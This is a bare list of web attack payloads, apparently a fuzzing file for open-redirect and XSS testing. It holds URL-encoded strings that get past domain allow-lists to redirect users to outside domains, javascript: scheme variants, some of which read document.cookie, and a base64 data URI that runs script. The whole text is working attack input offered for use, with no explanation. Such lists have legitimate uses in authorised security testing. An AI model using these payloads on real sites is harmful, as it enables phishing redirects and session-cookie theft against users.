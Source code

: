 data:text/html;base64,PHNjcmlwdD5hbGVydCgiWFNTIik8L3NjcmlwdD4=
http://localdomain.pw%2f%2f.www.whitelisteddomain.tld/
http://localdomain.pw%5c%5c.www.whitelisteddomain.tld/
http://localdomain.pw%3F.www.whitelisteddomain.tld/
http://localdomain.pw%23.www.whitelisteddomain.tld/
http://www.whitelisteddomain.tld:80%40localdomain.pw/
http://www.whitelisteddomain.tld%2elocaldomain.pw/
/x:1/:///%01javascript:alert(document.cookie)/
/https:/%5clocaldomain.pw/
javascripT://anything%0D%0A%0D%0Awindow.alert(document.cookie)
/http://localdomain.pw
/%2f%2flocaldomain.pw
/localdomain.pw/%2f%2e%2e
/http:/localdomain.pw
/.localdomain.pw
http://.localdomain.pw
.localdomain.pw
///\;@localdomain.pw
///localdomain.pw
/////localdomain.pw/
/////localdomain.pw
java%0ascript:alert(1)
java%09script:alert(1)
java%0dscript:alert(1)
javascript://%0aalert(1)
Javas%26%2399;ript:alert(1)
data:www.whitelisteddomain.tld;text/html;charset=UTF-8,<html><script>document.write(document.domain);</script><iframe/src=xxxxx>aaaa</iframe></html>
jaVAscript://www.whitelisteddomain.tld//%0d%0aalert(1);//
http://www.localdomain.pw\.www.whitelisteddomain.tld
%19Jav%09asc%09ript:https%20://www.whitelisteddomain.tld/%250Aconfirm%25281%2529
//example.com@google.com/%2f..
///google.com/%2f..
///example.com@google.com/%2f..
////google.com/%2f..
////example.com@google.com/%2f..
https://google.com/%2f..
https://example.com@google.com/%2f..
/https://google.com/%2f..
/https://example.com@google.com/%2f..
//google.com/%2f%2e%2e
//example.com@google.com/%2f%2e%2e
///google.com/%2f%2e%2e
///example.com@google.com/%2f%2e%2e
////google.com/%2f%2e%2e
////example.com@google.com/%2f%2e%2e
https://google.com/%2f%2e%2e
https://example.com@google.com/%2f%2e%2e
/https://google.com/%2f%2e%2e
/https://example.com@google.com/%2f%2e%2e
//google.com/
//example.com@google.com/
///google.com/
///example.com@google.com/
////google.com/
////example.com@google.com/
https://google.com/
https://example.com@google.com/
/https://google.com/
/https://example.com@google.com/
//google.com//
//example.com@google.com//
///google.com//
///example.com@google.com//